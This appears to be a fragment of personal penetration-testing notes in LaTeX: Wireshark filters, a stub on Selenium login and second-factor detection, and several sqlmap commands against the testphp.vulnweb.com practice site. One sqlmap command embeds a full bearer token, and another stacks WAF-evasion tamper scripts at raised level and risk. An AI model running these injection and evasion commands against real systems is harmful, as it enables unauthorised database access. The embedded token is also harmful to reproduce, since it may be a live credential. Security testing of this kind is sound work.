 Go to page panel, administration or whatever you want, close session and return.

\section{Wireshark analysis}


\begin{lstlisting}[numbers=none]
ip.addr == 172.25.118.65
tcp.dstport == 443	
tcp.port==443 && ip.addr == 172.25.118.65
\end{lstlisting}


\section{Zackari Tool}

Selenium login selector:
User
Password
Detect Second Factor



\section{SQL Injection Test}


\begin{lstlisting}[numbers=none]
	sudo apt-get install sqlmap


	sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables
	
	
	sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs   --headers= "Authorization: Bearer: eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJhdWQiOiIxIiwianRpIjoiOTZhMTJlZjcxNGUzZmUwMTdlOWZiMzZkOTZiMTBkZjVjNDIwYTQ3OWU5N2IwYjRmNGNhNDE3MTM5MzZlNzNjOWUwODk0ZDFjZTFlMjVmMTQiLCJpYXQiOjE2NjEyNzY5MjAuMDY5MDgxLCJuYmYiOjE2NjEyNzY5MjAuMDY5MDgzLCJleHAiOjE2OTI4MTI5MjAuMDY1MjQsInN1YiI6IjE3Iiwic2NvcGVzIjpbXX0.gJmnuUp03Y0ZL_3enF3frFLWppUfN5GIEk-xGbB4YZFulWXBeYglBxMu6vCpCZ-hGP0HqeeGYGUKUgUTJmI3eyhyln-NpDh2vqc50Dy7BEwMPGRl4BEHVGJrlQ2O6G_AOvCFP977SJS4vcUrn4ZtO9jigywy0-OTm8_z-M9gC-vfP-WYZ6hx-_QdFOzTZBYpbtgMxIaUh38ysnhsSsUSH-eD7kUJQmC822Xc9qkxwhkK3VNVfMUJByM3xi2gVtmCvtOFXzMejwkdiiut6bZtLNNxZT9KIxjL7OzD87jkIiyWnNFO5c_krp4GEQM1cYmTgfS10M-IR2hnhBHAXXj46lPpGkjNkqindspxDliVRpV78PVeZlkkM0q3Np9Q_-92pSlQkEVR-0xlAf5z2OhuGfYd0FuhVlDFYu5BNwer71QJX9H0vCTYnseA_LFd4GxKm9YiLey8SBXid84dJ0fiH5JF1rq64oiIOVmTnO198mEYhGIYy5UQH-HogKIGGUL2Hi0TOzW24PJnZBrMe_YY1HLsk6BPg-xfaBqbDXxMJxdJ1-vFeU200Gtxfo9crJ11wKwvWy90Q230hUXWCKNaRKeLNcKv9RWQq2_uCUjNAzcuGZsq69AwfYQLc4MvOcW5QZBt_UVARyGVSBytLOJykNWjIUqjCuXp7PpQ6BpmgEc" --method=POST --proxy="http://127.0.0.1:8080"
	

	sqlmap -r request.txt  --proxy="http://172.24.176.1:8080" --random-agent --level 2 --risk 2 --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,percentage,randomcase,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor --time-sec 15
	
sqlmap -r request.txt  --proxy="http://172.24.176.1:8080"
\end{lstlisting}



